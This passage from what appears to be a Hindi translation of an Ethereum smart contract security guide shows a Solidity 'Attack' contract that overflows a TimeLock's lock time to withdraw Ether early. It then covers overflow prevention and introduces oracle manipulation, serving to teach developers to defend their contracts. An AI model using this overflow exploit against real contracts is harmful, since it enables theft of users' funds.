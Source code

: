 ```
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### इन्टिजर अंडरफ्लो और ओवरफ्लो को कैसे रोकें

संस्करण 0.8.0 के रूप में, Solidity कंपाइलर कोड को अस्वीकार करता है जिसके परिणामस्वरूप इन्टिजर अंडरफ्लो और ओवरफ्लो होता है। हालांकि, निचले कंपाइलर संस्करण के साथ संकलित अनुबंधों को या तो अंकगणितीय संचालन से जुड़े फंक्शंस पर जांच करनी चाहिए या एक लाइब्रेरी का उपयोग करना चाहिए (उदाहरण के लिए, [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) जो अंडरफ्लो/ओवरफ्लो की जांच करती है।

#### ओरेकल हेरफेर {#oracle-manipulation}

[ओरेकल्स](/developers/docs/oracles/) ऑफ-चेन जानकारी और स्मार्ट अनुबंधों का उपयोग करने के लिए इसे ऑन-चेन भेजता है। ओरेकल्स के साथ, आप स्मार्ट अनुबंधों को डिज़ाइन कर सकते हैं जो ऑफ-चेन सिस्टम जैसे कि पूंजी बाजार के साथ इंटरऑपरेट करते हैं, जिससे उनके एप्लिकेशन का विस्तार होता है।

लेकिन अगर ओरेकल खराब है और गलत जानकारी भेजता है तो ऑन-चेन, स्मार्ट अनुबंध गलत इनपुट के आधार पर निष्पादित होंगे, जिससे समस्याएं हो सकती हैं। यह “ओरेकल समस्या” का आधार है, जो यह सुनिश्चित करने के कार्य से संबंधित है कि ब्लॉकचेन ऑरेकल से जानकारी सटीक, अद्यतित और समय पर है।

एक संबंधित सुरक्षा चिंता एक ऑन-चेन ओरेकल का उपयोग कर रही है, जैसे कि विकेन्द्रीकृत एक्सचेंज, ताकि किसी संपत्ति के लिए स्पॉट मूल्य प्राप्त किया जा सके। [विकेंद्रीकृत वित्त (DeFi)](/defi/) उद्योग में उधार देने वाले प्लेटफॉर्म अक्सर यूज़र के कोलेट्रल मूल्य को निर्धारित करने के लिए ऐसा करते हैं ताकि यह निर्धारित किया जा सके कि वे कितना उधार ले सकते हैं।
